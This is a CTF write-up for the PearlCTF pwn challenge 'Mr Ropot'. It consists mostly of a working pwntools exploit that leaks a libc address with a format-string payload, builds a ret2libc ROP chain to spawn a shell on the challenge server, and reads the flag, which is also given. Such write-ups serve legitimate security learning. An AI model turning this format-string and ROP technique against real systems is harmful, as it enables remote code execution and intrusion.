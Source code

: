 https://ctftime.org/event/2647

# Mr Ropot (pwn)

Would you like some joke or fact? Don't forget to leave a review!

nc mr---ropot.ctf.pearlctf.in 30009

## Solution

1) Leak an address in libc
2) ret2libc

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chall_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("mr---ropot.ctf.pearlctf.in", 30009)

p.sendlineafter(b"Exit\n", b"1")
p.sendlineafter(b"Leave a response: \n", b"%17$p")
p.readuntil(b"Your Response:\n")
leak = int(p.readline().decode(), 16)
libc.address = leak - 0x2a1ca

p.sendline(b"2")
p.readuntil(b"Leave a response: \n")

rop = ROP(libc)
rop.raw(b"A" * 0x38)
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.sendline(rop.chain())

p.readuntil(b"recorded.\n")

p.sendline(b"/bin/cat flag.txt")
print(p.readuntil(b"}").decode()) # pearl{fin4lly_g0t_my_fl4g_th4nks_printf}
```

## Flag
`pearl{fin4lly_g0t_my_fl4g_th4nks_printf}`

smiley 2025/03/08
